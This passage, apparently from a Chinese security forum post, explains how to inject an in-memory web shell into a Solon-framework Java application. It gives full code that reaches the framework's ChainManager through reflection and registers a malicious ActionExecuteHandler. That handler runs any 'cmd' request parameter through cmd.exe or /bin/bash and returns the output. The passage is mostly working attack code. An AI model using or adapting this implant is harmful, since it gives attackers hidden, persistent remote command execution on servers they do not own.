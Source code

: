 还是ChainManager这个类添加,下面的ActionReturnHandler内存马也一样

![image-20240810223645215](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-0993d17d1f8afcf737efa32d1d540303dbab2966.png)

```java
Context ctx = Context.current();  
Object _request = getfieldobj(ctx,"_request");  
Object request = getfieldobj(_request,"request");  
Object serverHandler = getfieldobj(request,"serverHandler");  
Object handler = getfieldobj(serverHandler,"handler");  
Object arg$1 = getfieldobj(handler,"arg$1");  
ChainManager _chainManager = (ChainManager) getfieldobj(arg$1,"_chainManager");  
_chainManager.addExecuteHandler(new ActionExecuteHandlermemshell());
```

恶意ActionExecuteHandler：

```php
public class ActionExecuteHandlermemshell implements ActionExecuteHandler{  
    @Override  
    public boolean matched(Context ctx, String contentType) {  
        try{  
            if(ctx.param("cmd")!=null){  
                String str = ctx.param("cmd");  
                try{  
                    String[] cmds =  
                            System.getProperty("os.name").toLowerCase().contains("win") ? new String[]{"cmd.exe",  
                                    "/c", str} : new String[]{"/bin/bash", "-c", str};  
                    String output = (new java.util.Scanner((new  
                            ProcessBuilder(cmds)).start().getInputStream())).useDelimiter("\\A").next();  
                    ctx.output(output);  
                }catch (Exception e) {  
                    e.printStackTrace();  
                }  
            }  
        }catch (Throwable e){  
            ctx.output(e.getMessage());  
        }  
        return false;  
    }  
    @Override  
    public Object[] resolveArguments(Context ctx, Object target, MethodWrap mWrap) throws Throwable {  
        return new Object[0];  
    }  
    @Override  
    public Object executeHandle(Context ctx, Object target, MethodWrap mWrap) throws Throwable {  
        return null;  
    }  
}
```
